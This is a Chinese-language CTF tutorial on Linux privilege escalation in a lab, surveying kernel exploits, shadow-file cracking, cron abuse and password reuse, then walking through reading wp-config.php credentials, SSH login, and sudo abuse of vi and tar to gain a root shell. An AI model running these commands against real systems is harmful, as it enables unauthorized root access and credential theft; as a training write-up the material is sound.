# CTF网络安全教程：P16：路径遍历与提权至root权限 🔓

在本节课中，我们将学习在CTF比赛中，如何从低权限用户提权至root权限，从而获得主机的最高控制权并最终获取flag值。提权是渗透测试中的关键环节，涉及多种技术和方法。

## 实验环境介绍

上一节我们介绍了提权的基本概念，本节中我们来看看本次实验的具体环境配置。

*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶机**：Linux系统，IP地址为 `192.168.253.21`。



实验目标：我们已经获得了一个低权限用户（如 `www-data`）的反弹shell。接下来，我们将执行各种操作，将权限提升至root，最终读取flag文件。

## 提权方法探索





以下是几种常见的Linux系统提权思路，我们将逐一进行尝试。



### 内核漏洞提权



内核漏洞提权是最直接的方法，通过利用操作系统内核的漏洞直接获取最高权限。但通杀所有系统的内核漏洞极为罕见，因此需要先收集系统信息。



查看系统信息的常用命令：
*   查看内核版本：`uname -a`
*   查看发行版本：`cat /etc/*-release` 或 `cat /etc/issue`

收集信息后，可使用 `searchsploit` 工具搜索对应版本是否存在公开的漏洞利用代码（Exploit）。如果存在，通常需要将Exploit代码上传到靶机，编译并执行。

**操作流程示例**：
```bash
# 在靶机上编译Exploit
gcc exploit.c -o exploit
# 赋予执行权限
chmod +x exploit
# 执行Exploit提权
./exploit
```

### 明文密码提权

Linux系统的用户密码哈希存储在 `/etc/shadow` 文件中，而用户信息在 `/etc/passwd` 中。如果能够读取这两个文件，可以使用 `unshadow` 命令组合它们，然后用 `john` 等工具进行破解。

**关键点**：通常，低权限用户无法读取 `/etc/shadow` 文件。需要检查是否有读取权限。
```bash
cat /etc/passwd # 通常可读
cat /etc/shadow # 通常需要root权限
```

### 计划任务（Cron Job）提权

Linux系统中的定时任务（Cron Job）可能以root权限运行。如果这些任务中的脚本文件权限配置不当（例如，全局可写），我们就可以修改脚本内容，在脚本中插入反弹shell的命令，从而在任务执行时获得root权限的shell。

**检查方法**：
```bash
cat /etc/crontab # 查看系统计划任务
ls -la /etc/cron* # 查看cron目录和文件
```

### 密码复用与敏感信息挖掘

管理员可能在多个服务中使用相同的密码。因此，Web应用、数据库等配置文件中发现的密码，有可能就是系统用户的密码。

**操作思路**：
1.  在低权限shell中，遍历Web目录、配置文件等，寻找包含用户名和密码的信息。
2.  尝试使用找到的密码通过SSH登录其他用户（甚至root用户）。
3.  如果SSH禁止root登录，则登录其他普通用户，再尝试从该用户提权。

## 实战提权过程

在尝试了上述几种方法后，我们发现内核漏洞、计划任务等路径暂时不可行。现在，我们转向挖掘敏感信息。

### 步骤一：模拟完整终端

首先，我们需要将简单的反弹shell升级为一个功能完整的交互式TTY，以便执行像 `sudo` 这样需要终端输入的程序。
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
执行此命令后，我们获得了一个更稳定的shell。

### 步骤二：挖掘敏感信息与密码复用

1.  切换到用户家目录，寻找线索：
    ```bash
    cd /home
    ls
    # 假设发现用户 zico
    cd /home/zico
    ls -la
    ```
2.  发现 `wordpress` 目录，检查其配置文件 `wp-config.php`，其中常包含数据库连接信息：
    ```bash
    cat /home/zico/wordpress/wp-config.php
    ```
3.  在配置文件中，我们找到了数据库用户名 `zico` 和其密码 `sWfCsfGspV9h3AmQzW8`。

### 步骤三：尝试SSH登录与sudo提权

1.  确认靶机开放SSH服务（端口22）。
2.  使用发现的密码尝试SSH登录用户 `zico`：
    ```bash
    ssh zico@192.168.253.21
    # 输入密码: sWfCsfGspV9h3AmQzW8
    ```
3.  登录成功后，检查 `zico` 用户拥有的sudo权限：
    ```bash
    sudo -l
    ```
    输出显示，用户 `zico` 可以以root身份无需密码运行 `vi`、`tar` 等命令。这为我们提供了绝佳的提权机会。

### 步骤四：利用sudo权限提权





这里我们使用 `vi` 命令进行提权。`vi` 编辑器可以在其内部执行系统命令。



**利用 `vi` 提权**：
```bash
# 方法1：直接在vi中执行shell
sudo vi
# 在vi命令行模式下输入
:!/bin/bash
# 或
:shell
```



**利用 `tar` 命令提权（另一种方法）**：
```bash
# 创建一个文件
touch exploit
# 使用tar命令的--checkpoint-action参数执行命令
sudo tar -cf /dev/null exploit --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
执行上述任意一种方法后，我们都将获得一个root权限的shell。



### 步骤五：获取Flag



获得root权限后，即可寻找并读取flag文件。Flag通常位于 `/root` 目录下。
```bash
cd /root
ls
cat flag.txt
# 或
cat /root/flag.txt
```





## 总结



本节课我们一起学习了从低权限用户提权至root权限的完整流程。我们探索了多种提权思路，包括内核漏洞、密码破解、计划任务和密码复用，并最终通过挖掘敏感信息获得高权限用户凭证，进而利用其sudo权限成功提权。在CTF比赛和实际渗透测试中，提权需要灵活的思路和细致的枚举，善于从系统配置、应用文件中发现突破口是关键。